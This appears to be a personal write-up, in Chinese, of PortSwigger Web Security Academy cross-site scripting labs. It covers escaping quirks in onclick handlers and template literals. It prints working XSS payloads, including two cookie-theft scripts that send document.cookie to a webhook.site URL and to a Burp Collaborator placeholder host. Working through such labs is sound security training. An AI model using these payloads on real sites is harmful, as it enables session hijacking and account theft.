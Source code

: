 反斜杠没有被正确转义

```js
\'-alert(document.domain)//
```

## Lab: [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

存储型。后端渲染

```html
<a id="author" href="https://ww.adsd" onclick="var tracker={track(){}};tracker.track('{{website}}');">1234</a>
```

单双引号、反斜杠均过滤。而onclick事件在触发时会进行一次html实体解码

```html
http://foo?&apos;-alert(document.domain)-&apos;
```

## Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

后端渲染，但是该转义的都转义了。

```js
var message = `0 search results for '{{input}}'`;
document.getElementById('searchMessage').innerText = message;
```

但是渲染的字符串在 js 中被飘号（反引号）包裹。用 js 格式化字符串xss。

```html
/?search=${alert(document.domain)}
```

## Lab: Exploiting cross-site scripting to steal cookies

想着简单一点直接改location结果找不到report..然后才发现只允许使用burp提供的公共服务器

```html
<script>window.location='https://webhook.site/cb9f69b1-bad8-46f1-8a14-a8249b19b89f/?cookie='+document.cookie</script>
```

反正是对自己 xss 成功了。那就当我解出了吧💦💦

```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
